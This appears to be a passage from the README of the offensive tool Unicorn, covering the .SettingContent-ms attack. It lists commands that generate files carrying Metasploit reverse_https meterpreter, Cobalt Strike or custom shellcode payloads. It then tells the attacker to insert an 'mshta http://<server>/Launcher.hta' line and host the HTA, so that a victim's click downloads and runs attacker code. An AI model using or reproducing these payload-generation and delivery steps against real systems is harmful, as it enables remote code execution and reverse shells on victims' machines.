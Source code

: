 For a detailed understanding on weaponizing this attack visit:

https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

The steps you'll need to do to complete this attack is generate your .SettingContent-ms file from
either a standalone or hta. The HTA method supports Metasploit, Cobalt Strike, and direct
shellcode attacks.

The four methods below on usage: 

HTA SettingContent-ms Metasploit: `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms`  
HTA Example SettingContent-ms: `python unicorn.py <cobalt_strike_file.cs cs ms`  
HTA Example SettingContent-ms: `python unicorn.py <path_to_shellcode.txt>: shellcode ms`  
Generate .SettingContent-ms: `python unicorn.py ms`

The first is a Metasploit payload, the second a Cobalt Strike, the third your own shellcode, and the fourth
just a blank .SettingContent-ms file. 

When everything is generated, it will export a file called Standalone_NoASR.SettingContent-ms either in
the default root Unicorn directory (if using the standalone file generation) or under the hta_attack/
folder. You will need to edit the Standalone_NoASR.SettingContent-ms file and replace:

REPLACECOOLSTUFFHERE

With:

mshta http://<apache_server_ip_or_dns_name/Launcher.hta.

Then move the contents of the hta_attack to /var/www/html.

Once the victim either clicks the .SettingContent-ms file, mshta will be called on the victim machine
then download the Unicorn HTA file which has the code execution capabilities. 

Special thanks and kudos to Matt Nelson for the awesome research

Also check out: https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

Usage: 

    python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
    python unicorn.py <cobalt_strike_file.cs cs ms
    python unicorn.py <patth_to_shellcode.txt>: shellcode ms
    python unicorn.py ms

